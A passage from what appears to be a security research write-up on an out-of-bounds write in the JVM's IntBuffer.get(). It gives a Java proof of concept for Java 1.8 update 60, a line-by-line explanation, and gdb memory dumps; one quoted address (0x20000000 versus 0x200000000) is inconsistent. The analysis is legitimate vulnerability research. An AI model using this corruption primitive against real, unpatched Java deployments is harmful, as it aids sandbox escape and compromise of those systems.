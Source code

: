 We can check that our analysis is correct by writing a simple PoC and
execute it on a vulnerable version of the JVM such as Java 1.8 update 60.

---------------------------------------------------------------------------
  1:  public class Test {
  2:
  3:    public static void main(String[] args) {
  4:      int[] dst = new int[1209098507];
  5:
  6:      for (int i = 0; i < dst.length; i++) {
  7:        dst[i] = 0xAAAAAAAA;
  8:      }
  9:
 10:      int bytes = 400;
 11:      ByteBuffer bb = ByteBuffer.allocateDirect(bytes);
 12:      IntBuffer ib = bb.asIntBuffer();
 13:
 14:      for (int i = 0; i < ib.limit(); i++) {
 15:        ib.put(i, 0xBBBBBBBB);
 16:      }
 17:
 18:      int offset = 1073741764; // offset << 2 = -240
 19:      int length = 2;
 20:
 21:      ib.get(dst, offset, length); // breakpoint here
 22:    }
 23:
 24:  }
---------------------------------------------------------------------------

This code creates an array of size 1209098507 (line 4) and then initializes
all the elements of this array to 0xAAAAAAAA (lines 6-8). It then creates
an instance ib of type IntBuffer and initializes all elements of its
internal array (integers) to 0xBBBBBBBB (lines 10-16). Finally, it calls
the get() method to copy 2 elements from ib's internal array to dst with a
negative offset of -240 (lines 18-21). Executing this code does not crash
the VM. Moreover, we notice that after calling get, no element of the dst
array have been modified. This means that 2 elements from ib's internal
array have been copied outside dst. Let's check this by setting a
breakpoint at line 21 and then launching gdb on the process running the
JVM. In the Java code we have used sun.misc.Unsafe to calculate the address
of dst which is 0x20000000.

---------------------------------------------------------------------------
$ gdb -p 1234
[...]
(gdb) x/10x 0x200000000
0x200000000:	0x00000001	0x00000000	0x3f5c025e	0x4811610b
0x200000010:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0x200000020:	0xaaaaaaaa	0xaaaaaaaa
(gdb) x/10x 0x200000000-240
0x1ffffff10:	0x00000000	0x00000000	0x00000000	0x00000000
0x1ffffff20:	0x00000000	0x00000000	0x00000000	0x00000000
0x1ffffff30:	0x00000000	0x00000000
---------------------------------------------------------------------------
